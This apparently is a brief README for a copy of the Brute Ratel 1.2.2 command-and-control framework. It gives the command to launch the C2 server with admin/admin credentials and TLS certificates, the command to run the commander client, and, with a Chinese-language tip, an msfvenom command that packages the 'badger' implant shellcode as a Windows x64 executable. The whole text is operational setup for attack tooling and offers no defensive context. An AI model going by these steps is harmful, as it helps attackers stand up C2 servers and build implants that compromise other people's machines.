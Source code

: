 # bruteratel-1.2.2

./brute-ratel-linx64 -ratel -a admin -p admin -h 192.168.175.129:1337 -sc cert.pem -sk key.pem

./commander-runme

生成的exe可能有问题可以使用msfvenom进行转换

cat badger_x64_ret.bin | msfvenom -p - -f exe --platform win -a x64 -o badger-X64.exe
